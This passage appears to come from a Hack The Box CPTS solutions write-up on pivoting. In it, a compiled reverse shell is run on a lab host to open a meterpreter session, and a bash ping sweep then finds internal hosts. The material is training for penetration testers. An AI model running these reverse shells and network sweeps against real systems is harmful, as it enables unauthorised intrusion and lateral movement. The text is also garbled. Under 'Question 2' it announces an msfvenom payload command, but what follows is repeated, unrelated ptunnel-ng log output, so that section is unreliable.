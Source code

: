 Code: shell

```shell
chmod +x reverseShell
./reverseShell
```

```
ubuntu@WEB01:~$ chmod +x reverseShell 
ubuntu@WEB01:~$ ./reverseShell 
```

Students will notice that a new `meterpreter` session has opened on their `multi/handler` listener module:

![[HTB Solutions/CPTS/z. images/54ebf4d761da5a062fa8cd0c09a3fc24_MD5.jpg]]

Thus, they need to perform a ping sweep against the `172.16.5.0/23` network, choosing any technique that was demonstrated in the module's section. The Linux for-loop method will be used. Students will find that the two IP addresses are `172.16.5.19` and `172.16.5.129`.:

Code: shell

```shell
shell
bash -i
for i in {1..254} ;do (ping -c 1 172.16.5.$i | grep "bytes from" &) ;done
```

```
meterpreter > shell

Process 3006 created.
Channel 330 created.
bash -i                                                                      
ubuntu@WEB01:~$ for i in {1..254} ;do (ping -c 1 172.16.5.$i | grep "bytes from" &) ;done
for i in {1..254} ;do (ping -c 1 172.16.5.$i | grep "bytes from" &) ;done
64 bytes from 172.16.5.19: icmp_seq=1 ttl=128 time=0.378 ms
64 bytes from 172.16.5.129: icmp_seq=1 ttl=64 time=0.032 ms
```

Answer: `172.16.5.19,172.16.5.129`

# Meterpreter Tunneling & Port Forwarding

## Question 2

### "Which of the routes that AutoRoute adds allows 172.16.5.19 to be reachable from the attack host? (Format:x.x.x.x/x.x.x.x)"

Students first need to create a Linux reverse TCP shell payload using `msfvenom` on Pwnbox/`PMVPN`:

Code: shell


[inf]: Starting ptunnel-ng 1.42.
[inf]: (c) 2004-2011 Daniel Stoedle, <daniels@cs.uit.no>
[inf]: (c) 2017-2019 Toni Uhlig,     <matzeton@googlemail.com>
[inf]: Security features by Sebastien Raveau, <sebastien.raveau@epita.fr>
[inf]: Forwarding incoming ping packets over TCP.
[inf]: Ping proxy is listening in privileged mode.
[inf]: Dropping privileges now.
[inf]: Starting ptunnel-ng 1.42.
[inf]: (c) 2004-2011 Daniel Stoedle, <daniels@cs.uit.no>
[inf]: (c) 2017-2019 Toni Uhlig,     <matzeton@googlemail.com>
[inf]: Security features by Sebastien Raveau, <sebastien.raveau@epita.fr>
[inf]: Relaying packets from incoming TCP streams.
